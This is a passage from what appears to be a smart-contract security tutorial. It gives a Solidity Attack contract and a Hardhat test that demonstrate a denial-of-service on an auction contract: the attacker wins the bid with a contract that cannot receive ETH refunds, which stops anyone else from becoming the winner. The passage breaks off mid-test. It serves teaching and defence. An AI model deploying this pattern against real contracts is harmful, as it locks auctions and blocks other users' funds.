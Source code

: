 //SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
This contract has a function called attack(), that just calls setCurrentAuctionPrice on the Good contract. Note, however, this contract does not have a fallback() function where it can receive ETH. More on this later.

Let's create an attack that will cause the Good contract to become unusable. Create a new file under test folder named attack.js and add the following lines of code to it

const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the aution
    let tx = await _goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await _attackContract.attack({
      value: ethers.utils.parseEther("3.0"),
    });
    await tx.wait();
